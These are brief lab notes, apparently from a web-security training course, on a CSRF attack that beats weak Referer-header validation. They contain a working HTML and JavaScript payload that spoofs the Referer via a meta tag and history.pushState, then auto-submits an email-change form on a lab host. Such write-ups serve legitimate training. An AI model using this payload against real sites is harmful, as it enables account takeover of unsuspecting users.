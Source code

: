 ## Lab: CSRF with broken Referer validation

Defense:
- Validate referer, but only containing the host string

Bypass:
- js push a query string containe the victim's host string
- `<meta name="referrer" content="unsafe-url">` to include query string in referer

```
    <meta name="referrer" content="unsafe-url">
    <form method="POST" action="https://0a7c00d00377a0b881db2a2500750082.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="11hell@web-security-academy.net">
    </form>
    <script>
        history.pushState("", "", "/?0a7c00d00377a0b881db2a2500750082.web-security-academy.net")
        document.forms[0].submit();
    </script>
```
